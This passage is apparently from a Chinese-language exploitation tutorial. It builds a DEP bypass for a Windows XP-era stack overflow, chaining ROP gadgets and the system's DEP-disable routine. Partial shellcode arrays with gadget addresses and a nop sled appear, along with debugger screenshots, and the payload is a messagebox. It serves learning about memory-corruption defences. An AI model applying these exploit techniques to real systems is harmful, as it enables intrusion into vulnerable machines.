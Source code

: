 那么，我们可以在shellcode中先跳转到一个将`al`设置为1的指令处，之后再转到`0x7C93CD24`执行。

![Bildschirmfoto 2018-09-14 um 7.08.58 PM.png]({{ site.url }}/images/0day/6F67E93486D8FF0334762170EEA0F042.png)

这段指令结束后有一个`ret 4`，从而为继续转入shellcode执行提供了可能性。

插件也顺带找到了将`al`变为1并ret的gadget，例如：

![Bildschirmfoto 2018-09-14 um 7.11.01 PM.png]({{ site.url }}/images/0day/BB1EDC056D40D8999A48F1A39D75839E.png)

很方便！

至此，我们的shellcode如下：

```c
char shellcode[]=
// 168	messagebox
...
// 12	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 4	mov eax, 1, ret
"\x52\xE2\x92\x7C"
// 4	turn off DEP
"\x24\xCD\x93\x7C"
```

我们在关闭DEP流程的最后`retn 0x4`处下断点：

![Bildschirmfoto 2018-09-28 um 3.44.02 PM.png]({{ site.url }}/images/0day/6131A88F1059FACE9EBDD687A1F6CEBC.png)

然后运行，却出现了异常：

![Bildschirmfoto 2018-09-28 um 3.44.22 PM.png]({{ site.url }}/images/0day/E27BFE38CC7340D8EC723F68403C24CF.png)

这是因为在关闭DEP的流程中有一处`je 7C95F70E`，而那个地方的指令是向`EBP - 4`处写入数据（这里写入的数据很重要，是后面调用`ZwSetInformationProcess`关闭DEP的关键参数）：

![Bildschirmfoto 2018-09-28 um 3.48.00 PM.png]({{ site.url }}/images/0day/1908145C7E306F8E6B7F54286EB7880A.png)

然而EBP已经被我们覆盖为`0x90909090`，这时的`EBP - 4`是不可以写入的。

所以在转入`0x7C93CD24`前需要把EBP指向一个可以写入的位置。

从前面的`OllyFindAddr`结果中的`Step3`可以找到类似于`push esp; pop ebp; ret`的指令段：

![Bildschirmfoto 2018-09-14 um 7.26.57 PM.png]({{ site.url }}/images/0day/7E70844225D5DF7F1A63E155170A067B.png)

需要注意溢出后的寄存器状态：

![Bildschirmfoto 2018-09-28 um 3.55.52 PM.png]({{ site.url }}/images/0day/1DD41D37D03417A5426DBDE5FBBC4AC7.png)

只有ESP指向的位置是可写入的。所以我们挑选一个`push esp`的，这里选择`0x5d1d8b85`处的gadget。

此时shellcode变为：

```c
char shellcode[]=
// 168	messagebox
...
// 12	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 4	mov eax, 1, ret
"\x52\xE2\x92\x7C"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	turn off DEP
"\x24\xCD\x93\x7C"
```
